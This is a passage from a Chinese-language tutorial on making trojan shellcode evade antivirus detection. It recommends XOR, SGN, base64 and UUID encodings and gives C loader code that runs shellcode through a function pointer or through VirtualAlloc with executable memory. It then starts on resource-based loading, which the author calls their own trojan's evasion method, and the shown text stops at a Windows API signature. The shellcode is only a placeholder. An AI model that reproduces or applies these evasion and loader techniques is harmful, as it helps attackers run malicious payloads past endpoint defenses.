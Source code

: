 最后保存即可,此时的bin文件是经过了XOR加密 ,**密钥为 0x39**

**同时推荐几种加密方式:**

**1.xor 双加密**

**2.xor加密 + sgn编码**

**3.xor 加密 +base64编码**

**4.uuid+base64编码**

**各位可以自行搭配**

### 2.shellcode的加载方式

shellcode的加载方式有很多种,这里以C/C++作为示范

#### 1、指针执行

```php
#include <Windows.h>
#include <stdio.h>

unsigned char shellcodeloader[] ="shellcode";

int main()
{
    ((void(*)(void)) & shellcodeloader)();
}
```

#### 2.申请内存执行

```php
#include <Windows.h>
#include <stdio.h>

int main()
{
    char shellcode[] = "shellcode";
    void* run = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //使用 VirtualAlloc申请一块可读可写可执行的内存(PAGE_EXECUTE_READWRITE)
    memcpy(run, shellcode, sizeof shellcode);
    //使用memcopy将shellcode拷贝到刚刚申请的内存中
    ((void(*)())run)();
}
```

#### 3.资源加载shellcode

这也是我木马免杀的执行方式

先补充一些前置知识需要学习3个函数

**1、FindResource：该函数确定指定模块中指定类型和名称的资源所在位置。**

```php
HRSRC FindResource(
  [in, optional] HMODULE hModule,
  [in]           LPCSTR  lpName,
  [in]           LPCSTR  lpType
);
```
